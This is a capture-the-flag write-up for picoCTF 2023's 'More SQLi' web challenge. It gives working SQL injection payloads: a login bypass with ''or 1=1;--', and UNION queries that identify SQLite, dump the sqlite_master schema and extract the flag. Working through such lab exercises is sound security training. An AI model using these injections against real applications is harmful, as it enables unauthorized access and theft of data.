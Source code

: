 # More SQLi #
 
## Overview ##
 
200 points
 
Category: [Web Exploitation](../)
 
Tags : `#picoCTF 2023` `Web Exploitation` `sql`
 
## Description ##

Can you find the flag on this website.

Additional details will be available after launching your challenge instance.
 
## Solution ##

After start of the instance picoCTF will provide you a link to running instance.

Site has login screen:

![Screenshot of the login screen](1.jpg)

If you type `user` username and `user` pass - you will get this message.

![Screenshot of the login screen](2.jpg)

So now we see the query for login request - it is obviously a hint for us, because when we know the query - we can easily get in with
 
 `'or 1=1;--` in `pass` field:

![Screenshot of the login screen](3.jpg)

Because the result query will be something like this:

 `SELECT id FROM users WHERE password = '' or 1=1;--' and username = '123'`

We can test some queries to find out, what DB is used, and with this query: 

`123' UNION SELECT 1, sqlite_version(), 3;--` 

we now know, that this site is using SQLite.

![Screenshot of the site](4.jpg)

Now we can just list all tables with this query 

`123' UNION SELECT name, sql, null from sqlite_master;--`

![Scrennshot of tables](5.jpg)

Here is the flag - let's get it.

`123' UNION SELECT flag, null, null from more_table;--`

![Screenshot of the flag](6.jpg)